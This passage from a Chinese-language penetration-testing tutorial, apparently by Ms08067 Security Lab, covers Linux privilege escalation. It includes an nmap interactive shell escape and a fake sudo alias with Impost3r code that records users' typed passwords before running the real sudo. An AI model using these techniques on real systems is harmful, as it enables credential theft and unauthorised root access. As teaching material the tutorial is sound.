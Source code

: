 **nmap**  

```
`nmap -interactive``! sh`
```

**0x04 伪造sudo**

Linux下命令执⾏顺序可以由⽤户决定，如改变.bashrc中的环境变量信息，也可以给某命令增加⼀个别名 等。可以伪造⼀个sudo命令，让⽤户每次输⼊的⼝令都存储下来，达到提权的⽬的。这⾥推荐Impost3r项⽬

  

**创建sudo别名**

```
`alias sudo='impost3r() {``if [ -f "/tmp/.impost3r" ]; then``/tmp/.impost3r "$@" && unalias sudo``else``unalias sudo;sudo "$@"``fi``}; impost3r'`
```

**impost3r核⼼代码**

```
`int pid = fork();``if (pid == 0)``{``successFlag = 0;``save_passwd(usrInfo->pw_name,originPasswd,allPasswd,1);``return allPasswd;``}``else``{``wait(NULL); // 防⽌⽤户执⾏的是⽆限循环服务，从⽽产⽣僵⼫进程``execv("/usr/bin/sudo",params);``exit(0);``}`
```

```
将⽤户输⼊的⼝令信息先通过 save_passwd 存储下来，然后再调⽤真实的sudo命令。
```

**0x05  其它提权⼿法**

1.LXD提权

2.cronjob计划任务提权

3.NFS提权

4.⼝令爆破提权

  

 ![Ms08067安全实验室](http://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWa9xKtQcyickhdgvJx9bWxpSjSqS4AwI7o804CbiazVQqTnMibp7ZC6fyxmJ7kgfMyA2rHgHkShs3M7bA/0?wx_fmt=png) ** Ms08067安全实验室 ** 实验室致力于网络安全的普及和培训，已出版《Web安全攻防：渗透测试实战指南》《内网安全攻防：渗透测试实战指南》《Python安全攻防：渗透测试实战指南》《Java代码安全审计（入门篇）》等图书。www.ms08067.com 300篇原创内容   公众号

  

  

  

扫描下方二维码加入星球学习

加入后邀请进入内部微信群，内部微信群永久有效！

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==) ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==) ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

目前36000+人已关注加入我们

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)